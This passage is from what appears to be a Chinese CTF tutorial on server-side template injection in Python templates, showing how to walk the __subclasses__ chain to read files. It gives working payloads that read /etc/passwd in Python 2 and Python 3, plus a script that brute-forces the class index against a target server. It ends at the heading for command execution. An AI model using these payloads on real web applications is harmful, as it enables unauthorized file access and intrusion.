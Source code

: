 这样我们在进行 SSTI 注入的时候就可以通过这种方式使用很多的类和方法，通过子类再去获取子类的子类、更多的方法，找出可以利用的类和方法加以利用。总之，是通过 python 的对象的继承来一步步实现文件读取和命令执行的：

```
找到父类<type 'object'> ---> 寻找子类 ---> 找关于命令执行或者文件操作的模块。
```

但是遇上一个 SSTI 的题，该如何下手？大体上有以下几种思路，简单介绍一下，后续有详细总结。

• 查配置文件 • 命令执行（其实就是沙盒逃逸类题目的利用方式）• 文件读取

利用 SSTI 读取文件
------------

### Python 2

在上文中我们使用 `__subclasses__` 方法查看子类的时候，发现可以发现索引号为 40 指向 file 类：

```
for i in enumerate(''.__class__.__mro__[-1].__subclasses__()): print i.....(0, <type 'type'>)(1, <type 'weakref'>)(2, <type 'weakcallableproxy'>)(3, <type 'weakproxy'>)(4, <type 'int'>)(5, <type 'basestring'>)(6, <type 'bytearray'>)(7, <type 'list'>)(8, <type 'NoneType'>)(9, <type 'NotImplementedType'>)(10, <type 'traceback'>)(11, <type 'super'>)(12, <type 'xrange'>)(13, <type 'dict'>)(14, <type 'set'>)(15, <type 'slice'>)(16, <type 'staticmethod'>)(17, <type 'complex'>)(18, <type 'float'>)......(38, <type 'ellipsis'>)(39, <type 'member_descriptor'>)(40, <type 'file'>)(41, <type 'PyCapsule'>)(42, <type 'cell'>)(43, <type 'callable-iterator'>)......
```

此 file 类可以直接用来读取文件：

```
{{[].__class__.__base__.__subclasses__()[40]('/etc/passwd').read()}}
```

### Python 3

使用 file 类读取文件的方法仅限于 Python 2 环境，在 Python 3 环境中 file 类已经没有了。我们可以用`<class '_frozen_importlib_external.FileLoader'>` 这个类去读取文件。

首先编写脚本遍历目标 Python 环境中 `<class '_frozen_importlib_external.FileLoader'>` 这个类索引号：

```
import requestsheaders = {    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.110 Safari/537.36'}for i in range(500):    url = "http://47.xxx.xxx.72:8000/?name={{().__class__.__bases__[0].__subclasses__()["+str(i)+"]}}"    res = requests.get(url=url, headers=headers)    if 'FileLoader' in res.text:        print(i)# 得到编号为79
```

所以 payload 如下：

```
{{().__class__.__bases__[0].__subclasses__()[79]["get_data"](0, "/etc/passwd")}}
```

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou9iaiaHWJGG2S4iboyHekzDz9Qsx3mib1BsfYmtGzTnncFZyTbbQPYRIntbpxicLCAc2xPCdsZroNgpdhQ/640?wx_fmt=png)

利用 SSTI 执行命令
------------
